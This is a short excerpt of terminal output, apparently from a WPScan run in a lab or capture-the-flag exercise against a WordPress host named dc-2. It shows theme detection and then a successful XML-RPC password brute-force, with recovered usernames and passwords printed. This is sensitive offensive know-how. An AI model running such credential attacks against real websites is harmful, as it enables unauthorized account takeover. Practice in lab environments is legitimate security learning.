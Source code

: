   ```
   | [!] The version is out of date, the latest version is 3.5
   | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
   | Style Name: Twenty Seventeen
   | Style URI: https://wordpress.org/themes/twentyseventeen/
   | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
   | Author: the WordPress team
   | Author URI: https://wordpress.org/
   |
   | Found By: Css Style In Homepage (Passive Detection)
   |
   | Version: 1.2 (80% confidence)
   | Found By: Style (Passive Detection)
   |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'
  
  [+] Enumerating All Plugins (via Passive Methods)
  
  [i] No plugins Found.
  
  [+] Enumerating Config Backups (via Passive and Aggressive Methods)
   Checking Config Backups - Time: 00:00:00 <==============================================================================> (137 / 137) 100.00% Time: 00:00:00
  
  [i] No Config Backups Found.
  
  [+] Performing password attack on Xmlrpc against 3 user/s
  [SUCCESS] - jerry / adipiscing                                                                                                                               
  [SUCCESS] - tom / parturient                                                                                                                                 
  Trying admin / find Time: 00:00:29 <================================================                                     > (647 / 1125) 57.51%  ETA: ??:??:??
  
  [!] Valid Combinations Found:
   | Username: jerry, Password: adipiscing
   | Username: tom, Password: parturient
  
  [!] No WPScan API Token given, as a result vulnerability data has not been output.
  [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
  
  [+] Finished: Sat Mar  9 04:20:06 2024
  [+] Requests Done: 820
  [+] Cached Requests: 5
  [+] Data Sent: 364.505 KB
  [+] Data Received: 751.883 KB
  [+] Memory used: 252.809 MB
  [+] Elapsed time: 00:00:33
                                                                                                                                                               
  ┌──(kali💋kali)-[~]
  └─$ 
  
  ```
